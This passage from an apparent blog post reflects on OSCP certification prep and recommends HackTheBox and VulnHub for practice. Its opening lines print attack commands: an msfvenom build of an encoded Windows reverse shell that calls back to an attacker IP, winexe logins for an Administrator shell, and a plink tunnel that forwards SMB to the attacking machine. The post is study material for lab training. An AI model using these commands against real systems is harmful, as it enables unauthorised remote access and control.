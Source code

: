 `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -e x86/shikata_ga_nai -f exe -o non_staged.exe`

This worked after hours of trying to run netcat shells, playing around with the registry, and attempting to use `PsExec -s`, which all failed in various ways.

#### Escalation knowing the admin password

On Windows you may find yourself knowing the Administrator password, but have no easy way to use it. Interactive password prompts won't appear on netcat shells, and PsExec may throw out cryptic errors.

If SMB is open, running the following from Kali often does the trick:

`winexe -U Administrator //10.0.0.0 "cmd.exe"`

If SMB is up locally but the port is closed externally, then try a remote port forward back to your attacking machine:

`plink.exe -l sshproxy -pw sshproxy -R 445:127.0.0.1:445 10.10.10.10`

`winexe -U Administrator //127.0.0.1 "cmd.exe"`

## 'Trying harder' and all that

OSCP has a reputation of being a challenging course and a lot of people get very discouraged by it. It definitely is challenging, but like anything, the more exposure you've had to the related material and ideas beforehand, the more manageable it is.

Proficiency in concepts like Linux privilege escalation comes from being able to spot the one small thing that doesn't look right on a system amongst _thousands of totally normal things_, and it's clear that's a skill that takes time to develop. At first you don't have a clue what to look for, and could spend hours without making any progress. Once you've done it 20 times, you'll know the common patterns, and can sometimes spot the weakness instantly. Once you've done it 100 times, it's a piece of cake. That's not crazy l33t skills; it's just experience that allows you to filter out the noise. 

What I'm saying is that the OSCP labs are unforgiving if they're your first exposure to some of these concepts. Walkthroughs do not exist, just a bunch of people being cryptic on a forum. There's a guide, but it's not complete, the techniques only come alive when you use them.

In my opinion, [HackTheBox](https://www.hackthebox.eu/) is a much better place to start. Machines are graded by difficulty, and the forums have a great culture of sharing knowledge. Out of their own goodwill and the principle of 'paying it forward', people take time to help you if you are stuck, and there are high-quality writeups available for all the retired machines. Some say that HTB machines are more "CTF-like" (less realistic) than OSCP machines, and while that's true on average, there's a whole variety of boxes, some of which are just like the OSCP lab machines. Best of all, the basic features are free, and a couple months' membership is very cheap compared to OSCP.

That's why I feel that HackTheBox, and to a lesser extent [VulnHub](https://www.vulnhub.com/), are fantastic environments for building up that initial experience. There is a lot to be gained just from working through writeups for those boxes and collecting useful commands and techniques.

Once you've done that, the OSCP lab time becomes an opportunity to hone your existing skills, plug your weaknesses, and practice techniques like pivoting and client-side attacks which you don't get much chance to do elsewhere. It'll still be challenging, but in a more fulfilling way, and a better use of your time and money.

(I promise I'm not a shill for HackTheBox, I'm just glad that I started there)
